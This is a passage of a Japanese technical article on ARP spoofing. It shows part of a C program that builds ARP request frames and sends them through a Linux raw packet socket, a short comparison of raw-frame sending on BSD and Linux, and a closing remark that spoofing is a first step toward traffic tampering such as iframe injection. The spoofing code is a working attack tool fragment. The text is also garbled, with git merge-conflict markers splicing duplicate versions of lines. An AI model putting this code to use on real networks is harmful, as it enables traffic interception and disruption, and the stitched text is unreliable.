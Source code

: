   res = sendto(sd, arpbuf, sizeof(arpbuf), 0, (struct sockaddr *)&to, tolen);
=======
  arp \= (struct ether_arp *)(arpbuf + sizeof(struct ether_header));
  arp\->arp_hrd \= htons(ARPHRD_ETHER);    /* ハードウェアアドレスの種類 */
  arp\->arp_pro \= htons(ETHERTYPE_IP);    /* 論理アドレスの種類         */
  arp\->arp_hln \= ETH_ALEN;               /* MACアドレスのサイズ        */
  arp\->arp_pln \= sizeof(struct in_addr); /* 論理アドレスのサイズ       */
  arp\->arp_op \= htons(ARPOP_REQUEST);    /* ARPリクエスト              */
  /* ARPペイロード部分 */
  memcpy(arp\->arp_sha, eth\->ether_shost, sizeof(arp\->arp_sha));
  memcpy(arp\->arp_tha, eth\->ether_dhost, sizeof(arp\->arp_tha));
  memcpy(arp\->arp_spa, &src_addr, sizeof(arp\->arp_spa));
  memcpy(arp\->arp_tpa, &dst_addr, sizeof(arp\->arp_tpa));

  memset(&to, 0, sizeof(struct sockaddr));
  to.sa_family \= PF_PACKET;
  strncpy(to.sa_data, interface, sizeof(to.sa_data)\-1);

  res \= sendto(sd, arpbuf, sizeof(arpbuf), 0, (struct sockaddr *)&to, tolen);
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
  if (res < 0)
    perror("sendto");
  else
    printf("%d bytes send\n", res);

  close(sd);

  return 0;
}
<<<<<<< HEAD
-----
=======
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

●5.3 BSDとLinuxでの実装の違い

　デバイスドライバレベルで生のパケットを送信するにあたり、BSDとLinuxの実
装の違いは、以下の2点です。

<<<<<<< HEAD
・BSDがBPFを使用するのに対して、Linuxはソケットを使用する。
・BSDがwrite(2)を使用して送信するのに対して、Linuxはsendto(2)を使用する。


■0x06.) 最後に
=======
  - BSDがBPFを使用するのに対して、Linuxはソケットを使用する。
  - BSDがwrite(2)を使用して送信するのに対して、Linuxはsendto(2)を使用する。


### 0x06 最後に
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　ARPスプーフィングは、それ自体では通信妨害を引き起こすのみです。汚染され
たARPキャッシュを参照して送信先を決定したフレームは、正しい送信先へ向かわ
ないためです。ARPスプーフィングは、あくまでも本格的な攻撃のための第一歩に
過ぎません。さくらインターネットではwebサーバーからの応答パケットが改ざん
（iframeタグの挿入）されました。このような攻撃を成立させるためには、ARPス
プーフィングやパケットの改ざん以外にも手順が必要となります。それらはARPス
プーフィングとはまた別のテクニックが必要となり、攻撃内容によっては難易度
が上がります。
　詳細な攻撃手順やテクニックについての解説は、また別の機会にとっておくこ
とにします。
